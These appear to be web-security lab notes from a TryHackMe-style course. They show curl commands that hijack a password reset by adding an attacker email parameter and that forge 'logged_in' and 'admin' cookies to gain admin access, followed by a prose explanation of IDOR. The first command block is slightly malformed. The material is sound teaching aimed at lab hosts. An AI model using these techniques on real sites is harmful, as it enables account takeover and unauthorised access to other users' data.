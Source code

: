 We're going to examine the **reset password** function of a website, which typically sends a password link to the email address of the account owner.

```sh
curl 'http://10.10.175.45/customers/reset?email=robert@acmeitsupport.thm' 
-H 'Content-Type: application/x-www-form-urlencoded' 
-d 'username=robert&email={username}@customer.acmeitsupport.thm'
```
Here the password information is sent to the account we created.

### Cookie Tampering

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges. 

Firstly, we'll start by requesting the target page:

```sh
user@tryhackme$ curl http://MACHINE_IP/cookie-test
```
We can see we are returned a message of: **Not Logged In**

Now we'll send another request with the logged_in cookie set to true and the admin cookie set to false:

```sh
user@tryhackme$ curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
```
We are given the message: **Logged In As A User**

Finally, we'll send one last request setting both the logged_in and admin cookie to true:

```sh
user@tryhackme$ curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
```
This returns the result: **Logged In As An Admin**

## Insecure Direct Object Reference (IDOR)

IDOR stands for Insecure Direct Object Reference and is a type of access control vulnerability.

This type of vulnerability can occur when a web server receives user-supplied input to retrieve objects (files, data, documents), too much trust has been placed on the input data, and it is not validated on the server-side to confirm the requested object belongs to the user requesting it.



### Example 

Imagine you've just signed up for an online service, and you want to change your profile information. The link you click on goes to http://online-service.thm/profile?user_id=1305, and you can see your information.

Curiosity gets the better of you, and you try changing the user_id value to 1000 instead (http://online-service.thm/profile?user_id=1000), and to your surprise, you can now see another user's information. You've now discovered an IDOR vulnerability! Ideally, there should be a check on the website to confirm that the user information belongs to the user logged requesting it.
